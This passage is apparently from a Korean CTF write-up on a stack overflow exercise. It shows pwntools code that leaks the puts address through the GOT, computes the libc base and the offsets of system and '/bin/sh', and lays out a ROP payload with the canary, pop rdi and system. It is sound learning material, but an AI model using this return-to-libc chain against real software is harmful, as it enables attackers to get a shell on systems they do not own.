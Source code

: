 ```python
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendlineafter(b'Buf: ', payload)
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
slog('leaked puts', leaked_puts)

```  

<br>

![image](https://github.com/user-attachments/assets/ceaf9517-0f52-4dbe-a4cb-ec21365436fb)

이렇게 got에 적힌 puts을 성공적으로 빼왔다.   

이제 /bin/sh 까지 실행시키면서 마무리를 해보자  


<br>

![image](https://github.com/user-attachments/assets/ac3c6da5-d676-493c-a797-a285d78b2890)

/bin/sh를 찾으려 search를 해보면 이 주소도 libc 파일에 있다는 걸 알 수 있다.  

<br>

![image](https://github.com/user-attachments/assets/d608f8dc-d60f-4ecc-91e7-9eb0c89e08d4)

그러므로 얘를 찾기 위해 `strings -tx libc.so.6 | grep "/bin/sh"` 로 찾아줬다.  
strings -tx는 문자열 포맷으로 16진수 결과를 받아내는 명령어다.  
저런 문자열은 rodata 영역이나 libc 특정 영역에 따로 존재할거다.  

아무튼 0x1d8698 인 것을 알았으니 puts 주소랑 system 주소의 차이만 알면 된다.    

<br>

![image](https://github.com/user-attachments/assets/9afa78f9-def7-4939-a150-6c00df57dd34)


이렇게 드디어 전부 다 구했다.  

**정리**

- `puts` → `0x80ed0`
- `system` → `0x50d60`
- `/bin/sh` → `0x1d8698`

- `libc_base = leaked_puts - libc.symbols['puts']`

- `system = libc_base + libc.symbols['system']`
- `binsh = libc_base + next(libc.search(b'/bin/sh'))`

**payload 구성 (/bin/sh 실행 포함)**

```python
payload 구성

쓰레기값, 카나리, SFP ((48+8) + 8 + 8) bytes
----- 지금부터 리턴주소에 쓸 것들 -----
+ pop rdi; ret -> 얘로 다음줄에 rdi 인자를 넘겨준다 
+ binsh -> /bin/sh 의 주소가 이곳에 쓰인다
+ system -> system = libc_base + libc.symbols['system']
```
